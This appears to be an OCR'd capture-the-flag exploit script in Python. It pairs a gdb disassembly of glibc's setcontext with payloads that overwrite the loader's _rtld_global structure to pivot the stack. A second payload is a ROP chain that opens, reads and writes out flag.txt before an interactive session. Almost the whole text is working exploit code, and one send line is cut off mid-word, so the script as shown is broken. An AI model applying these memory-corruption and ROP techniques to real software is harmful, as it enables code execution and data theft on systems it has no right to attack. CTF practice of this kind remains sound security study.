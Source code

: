 ```python
   0x00007f0360916b65 <+21>:	mov    eax,0xe
   0x00007f0360916b6a <+26>:	syscall 
   0x00007f0360916b6c <+28>:	pop    rdi
   0x00007f0360916b6d <+29>:	cmp    rax,0xfffffffffffff001
   0x00007f0360916b73 <+35>:	jae    0x7f0360916bd0 <setcontext+128>
   0x00007f0360916b75 <+37>:	mov    rcx,QWORD PTR [rdi+0xe0]
   0x00007f0360916b7c <+44>:	fldenv [rcx]
   0x00007f0360916b7e <+46>:	ldmxcsr DWORD PTR [rdi+0x1c0]
   0x00007f0360916b85 <+53>:	mov    rsp,QWORD PTR [rdi+0xa0]
   0x00007f0360916b8c <+60>:	mov    rbx,QWORD PTR [rdi+0x80]
   0x00007f0360916b93 <+67>:	mov    rbp,QWORD PTR [rdi+0x78]
   0x00007f0360916b97 <+71>:	mov    r12,QWORD PTR [rdi+0x48]
   0x00007f0360916b9b <+75>:	mov    r13,QWORD PTR [rdi+0x50]
   0x00007f0360916b9f <+79>:	mov    r14,QWORD PTR [rdi+0x58]
   0x00007f0360916ba3 <+83>:	mov    r15,QWORD PTR [rdi+0x60]
   0x00007f0360916ba7 <+87>:	mov    rcx,QWORD PTR [rdi+0xa8]
   0x00007f0360916bae <+94>:	push   rcx
   0x00007f0360916baf <+95>:	mov    rsi,QWORD PTR [rdi+0x70]
   0x00007f0360916bb3 <+99>:	mov    rdx,QWORD PTR [rdi+0x88]
   0x00007f0360916bba <+106>:	mov    rcx,QWORD PTR [rdi+0x98]
   0x00007f0360916bc1 <+113>:	mov    r8,QWORD PTR [rdi+0x28]
   0x00007f0360916bc5 <+117>:	mov    r9,QWORD PTR [rdi+0x30]
   0x00007f0360916bc9 <+121>:	mov    rdi,QWORD PTR [rdi+0x68]
   0x00007f0360916bcd <+125>:	xor    eax,eax
   0x00007f0360916bcf <+127>:	ret    
   0x00007f0360916bd0 <+128>:	mov    rcx,QWORD PTR [rip+0x37c2a1]        # 0x7f0360c92e78
   0x00007f0360916bd7 <+135>:	neg    eax
   0x00007f0360916bd9 <+137>:	mov    DWORD PTR fs:[rcx],eax
   0x00007f0360916bdc <+140>:	or     rax,0xffffffffffffffff
   0x00007f0360916be0 <+144>:	ret    
End of assembler dump.
'''

#rtld_global = libc.address + 0x5f0040
ld.address = libc.address + 0x3ca000
rtld_global = ld.sym['_rtld_global']

# we somewhat reconstruct values in rtld_global that we will overwrite (a bit, not too much..)
payload = p32(0)+p32(1)
payload += p64(0)+p64(1)+p64(0)*4+p64(1)+p64(0)*2+p64(5)+p64(0)+p64(0x00002aa03b3fdd31)
payload += p64(0)+p64(0x6b)+p64(3)
payload += p64(libc.address+0x5f1d80)+p64(libc.address+0x3cac80)+p64(ld.address)
payload += p64(0x0000000000404040)+p64(rtld_global+2568)+p64(0)+p64(0x5b84d8+libc.address)
payload += p64(0x5f09d8+libc.address)+p64(0)+p64(0x5f1020+libc.address)
payload += p64(0)+p64(0x404040)
payload = payload.ljust(0x600,b'\x00')
payload += p64(0xcafebabe)+p64(pivot)		# here we overwrite rtld_global+3856, that will be called next
p.sendline(payload)

# second payload --> open , read, write ROP
payload2 = b'flag.txt'.ljust(16,b'\x00')
payload2 += p64(pop_rdi)+p64(0x404000)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)			# fd = open("flag.txt", O_RDONLY)
payload2 += p64(xchg_eax_edi)+p64(pop_rsi)+p64(0x404400)+p64(pop_rdx)+p64(0x100)+p64(pop_rax)+p64(0)+p64(syscall)	# read(fd, 0x404400, 0x100)
payload2 += p64(xchg_edx_eax)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x404400)+p64(pop_rax)+p64(1)+p64(syscall)	# write(1,0x404400, 0x100)
p.send(payl
p.interactive()
```

*nobodyisnobody, still pwning things..*

